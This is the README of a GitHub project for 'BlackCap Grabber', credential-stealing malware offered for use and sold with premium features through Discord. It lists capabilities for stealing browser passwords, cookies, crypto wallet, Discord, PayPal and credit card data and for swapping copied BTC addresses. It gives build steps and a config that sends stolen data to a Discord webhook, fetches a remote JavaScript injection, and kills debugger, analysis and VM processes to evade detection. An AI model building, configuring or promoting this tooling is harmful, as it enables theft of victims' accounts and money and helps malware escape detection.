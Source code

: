 # BlackCap Grabber v1.9

![](https://raw.githubusercontent.com/KSCHdsc/BlackCap-Assets/main/Banner.png)



##### [:gem: Premium](https://discord.gg/blackcap) - [💡 Features](https://github.com/BlackCap-Grabber/Arizona#features) 






<h1 align="center">
  BlackCap Grabber 🔰
  DISCORD.GG/BLACKCAP
</h1>


<h2 align="center">
  BlackCap Grabber was made with

Love ❌ code ✅

</h2>

**NOTE:** \
BlackCap was made for educational purposes, therefor all consequences caused by your actions are **your** responsibility and accountability.

---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://discord.gg/blackcap)
- [🎉・Setting up BlackCap](#setup)
- [⚙・Config](#config)
- [📝・Changelog](#changelog)

## <a id="features"></a>🔰 〢 Features

# 💎 = Premium Features Join the discord to buy

```diff
> Default:

- Steal Steam / Minecraft / Metamask / Exodus / Roblox / NationGlory login
- Steal Chrome Passwords / Cookies / History
- Inject Discord / Discord Canary / Lightcord / Ripcord / Xcord
- Debug Killer (Kill task gestionary)
- Bypass TokenProtector / BetterDiscord
- Take a Screenshot
- Grabb System Informations
- Bypass Virus Total machines
- Bypass VM machines
- Hide Itself in Background
- Replace the BTC address copying by your (💎)
- Custom Installer / Setuper (💎)
- Icon / Name / Description Customizable (💎)
- Cookies Exploiter Tech (💎)
- Steal all Chromium Passwords and Cookies for OperaGX/Opera/GoogleChrome/Brave/Chromium/Torch/Edge/Mozilla and others (💎)
- 0/64 Detect Virus Total (.exe) (💎)
- Grabb Sensitive Files exodus login / a2f backup codes / tokens / passwords... (can be customizable) (💎)



> Injection:

- Nitro Auto Buy
- First Start Reporter
- New Passwords
- New Emails
- New Login
- New Credit Card
- New PayPal
- Anti Delete system (re install after Discord uninstall / Discord Update)
> + More!
```



## <a id="setup"></a> 📁 〢 Setting up BlackCap

1. Install [Python](https://www.python.org/downloads/)
2. Edit the Configuration [index.py](https://github.com/KSCHdsc/BlackCap-Grabber/blob/main/index.py#L52)
3. Double Click on [build.bat](https://github.com/KSCHdsc/BlackCap-Grabber/blob/main/build.bat) to build
4. You have your .exe file enjoy :)




## <a id="config"></a>⚙ 〢 Config

If you want to change the config (add your webhook), open up [index.py](https://github.com/KSCHdsc/BlackCap-Grabber/blob/main/index.py#L52) and locate it at the top. There you can configure the following:


```py 
{
    
__config__ = {
    'yourwebhookurl': "place your webhook here",#your discord webhook url 
    'blackcap_inject_url': "https://raw.githubusercontent.com/KSCHdsc/BlackCap-Inject/main/index.js",#my javascript injection (i recommand to not change)
    'hide': 'no',
    'kill_discord_process': True,#you want to hide grabber? ('yes' or 'no')
    'dbugkiller': True,#recommand to don't touch
    'blprggg':#don't touch this
    [
        "httpdebuggerui", 
        "wireshark", 
        "fiddler", 
        "regedit", 
        "cmd", 
        "taskmgr",
        "vboxservice", 
        "df5serv", 
        "processhacker", 
        "vboxtray", 
        "vmtoolsd", 
        "vmwaretray",
        "ida64", 
        "ollydbg", 
        "pestudio", 
        "vmwareuser", 
        "vgauthservice", 
        "vmacthlp",
        "x96dbg", 
        "vmsrvc", 
        "x32dbg", 
        "vmusrvc", 
        "prl_cc", 
        "prl_tools", 
        "xenservice",
        "qemu-ga", 
        "joeboxcontrol", 
        "ksdumperclient", 
        "ksdumper", 
        "joeboxserver"
    ]

}
}
```

---


## <a id="changelog"></a>💭 〢 ChangeLog

```diff
v1.9 ⋮ 2022-26-10
+ bug fix to search token
+ error message fixed
+ build with pyinstaller fixed

```

<a href=#top>Back to Top</a></p>

### Authors
- [KSCHdsc](https://github.com/KSCHdsc)
- [002Sans](https://github.com/002-sans)

### Contributors (CapingTeam)
- Xenis
- Nono1337
- Irax212
- Shamroks

# Terms
- [x] Educational purpose only
- [x] Reselling is forbidden
- [ ] You can use the source code if you keep credits (in embed + in markdown), it has to be open-source
- [x] We are NOT responsible of anything you do with our software (if its illegal)

![](https://raw.githubusercontent.com/KSCHdsc/BlackCap-Assets/main/mona-loading-dark.gif)
